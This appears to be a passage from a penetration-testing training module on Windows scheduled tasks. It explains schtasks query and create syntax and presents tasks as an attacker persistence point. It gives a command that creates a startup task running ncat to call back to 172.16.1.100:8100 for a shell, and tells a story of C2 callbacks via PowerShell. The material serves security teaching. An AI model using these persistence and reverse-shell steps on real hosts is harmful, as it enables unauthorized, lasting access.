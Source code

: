 # Working With Scheduled Tasks

Scheduled tasks are an excellent way for administrators to ensure that tasks they want to run regularly happen, but they are also an excellent persistence point for attackers. In this section, we will discuss using schtasks to:

- Learn how to check what tasks exist.
- Create a new task to help us automate actions or acquire a shell on the host.

## What Are Scheduled Tasks?

The Task Scheduler allows us as admins to perform routine tasks without having to kick them off manually. The scheduler will monitor the host for a specific set of conditions called triggers and execute the task once the conditions are met.

> **Story Time:** On several engagements, while pentesting an enterprise environment, I have been in a position where I landed on a host and needed a quick way to set persistence. Instead of doing anything crazy or pulling down another executable onto the host, I decided to search for or create a scheduled task that runs when a user logs in or the host reboots. In this scheduled task, I would set a trigger to open a new socket utilizing PowerShell, reaching out to my Command and Control infrastructure. This would ensure that I could get back in if I lost access to this host. If I were lucky, when the task I chose ran, I might also receive a SYSTEM-level shell back, elevating my privileges at the same time. It quickly ensured host access without setting off alarms with antivirus or data loss prevention systems.

### Triggers That Can Kick Off a Scheduled Task

- When a specific system event occurs.
- At a specific time.
- At a specific time on a daily schedule.
- At a specific time on a weekly schedule.
- At a specific time on a monthly schedule.
- At a specific time on a monthly day-of-week schedule.
- When the computer enters an idle state.
- When the task is registered.
- When the system is booted.
- When a user logs on.
- When a Terminal Server session changes state.

This list of triggers is extensive and gives us many options for having a task take action. Now that we know what scheduled tasks are and what can make them actionable, it is time to look at using them.

## How To Utilize Schtasks

In the sections provided below, we will go over exactly how we can utilize the `schtasks` command to its fullest extent. Additionally, as we go over them in greater detail, a formatted table providing the syntax for each action will be provided.

Note that the sections provided here are not an end-all-be-all. Several of the repetitive parameters have been omitted. Be sure to check the help menu `/?` to see a complete list of what can be used.

### Display Scheduled Tasks:

Query Syntax

| Action | Parameter | Description                                                                                                                                                                                                                                 |
| ------ | --------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Query  |           | Performs a local or remote host search to determine what scheduled tasks exist. Due to permissions, not all tasks may be seen by a normal user.                                                                                             |
| /fo    |           | Sets formatting options. We can specify to show results in the Table, List, or CSV output.                                                                                                                                                  |
| /v     |           | Sets verbosity to on, displaying the advanced properties set in displayed tasks when used with the List or CSV output parameter.                                                                                                            |
| /nh    |           | Simplifies the output using the Table or CSV output format. This switch removes the column headers.                                                                                                                                         |
| /s     |           | Sets the DNS name or IP address of the host we want to connect to. Localhost is the default specified. If /s is utilized, we are connecting to a remote host and must format it as "\\host".                                                |
| /u     |           | This switch will tell schtasks to run the following command with the permission set of the user specified.                                                                                                                                  |
| /p     |           | Sets the password in use for command execution when we specify a user to run the task. Users must be members of the Administrator's group on the host (or in the domain). The u and p values are only valid when used with the s parameter. |

We can view the tasks that already exist on our host by utilizing the `schtasks` command like so:

```

C:\htb> SCHTASKS /Query /V /FO list

Folder: \
HostName: DESKTOP-Victim
TaskName: \Check Network Access
Next Run Time: N/A
Status: Ready
Logon Mode: Interactive only
Last Run Time: 11/30/1999 12:00:00 AM
Last Result: 267011
Author: DESKTOP-Victim\htb-admin
Task To Run: C:\Windows\System32\cmd.exe ping 8.8.8.8
Start In: N/A
Comment: quick ping check to determine connectivity. If it passes, other tasks will kick off. If it fails, they will delay.
Scheduled Task State: Enabled
Idle Time: Disabled
Power Management: Stop On Battery Mode, No Start On Batteries
Run As User: tru7h
Delete Task If Not Rescheduled: Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule: Scheduling data is not available in this format.
Schedule Type: At system start up
Start Time: N/A
Start Date: N/A
End Date: N/A
Days: N/A
Months: N/A
Repeat: Every: N/A
Repeat: Until: Time: N/A
Repeat: Until: Duration: N/A
Repeat: Stop If Still Running: N/A

<SNIP>
```

Chaining our parameters with `Query` allows us to format our output from the standard bulk into a list with advanced settings. The above output shows how the tasks would look in a list format.

### Create a New Scheduled Task:

Create Syntax

| Action | Parameter | Description                                                                                                               |
| ------ | --------- | ------------------------------------------------------------------------------------------------------------------------- |
| Create |           | Schedules a task to run.                                                                                                  |
| /sc    |           | Sets the schedule type. It can be by the minute, hourly, weekly, and much more. Be sure to check the options parameters.  |
| /tn    |           | Sets the name for the task we are building. Each task must have a unique name.                                            |
| /tr    |           | Sets the trigger and task that should be run. This can be an executable, script, or batch file.                           |
| /s     |           | Specify the host to run on, much like in Query.                                                                           |
| /u     |           | Specifies the local user or domain user to utilize                                                                        |
| /p     |           | Sets the Password of the user-specified.                                                                                  |
| /mo    |           | Allows us to set a modifier to run within our set schedule. For example, every 5 hours every other day.                   |
| /rl    |           | Allows us to limit the privileges of the task. Options here are limited access and Highest. Limited is the default value. |
| /z     |           | Will set the task to be deleted after completion of its actions.                                                          |

Creating a new scheduled task is pretty straightforward. At a minimum, we must specify the following:

- `/create` : to tell it what we are doing
- `/sc` : we must set a schedule
- `/tn` : we must set the name
- `/tr` : we must give it an action to take

Everything else is optional. Let us see an example below of how we could create a task to help us get a shell.

```
C:\htb> schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"

SUCCESS: The scheduled task "My Secret Task" has successfully been created.
```

A great example of a use for `schtasks` would be providing us with a callback every time the host boots up. This would ensure that if our shell dies, we will get a callback from the host the next time a reboot occurs, making it likely that we will only lose access to the host for a short time if something happens or the host is shut down. We can create or modify a new task by adding a new trigger and action. In our task above, we have `schtasks` execute `Ncat` locally, which we placed in the user's `AppData` directory, and connect to the host `172.16.1.100` on port `8100`. If successfully executed, this connection request should connect to our command and control framework (Metasploit, Empire, etc.) and give us shell access.

Now let us look at what modifying a task would look like.

### Change the Properties of a Scheduled Task

Change Syntax

| Action | Parameter | Description |
| ------ | --------- | ----------- |
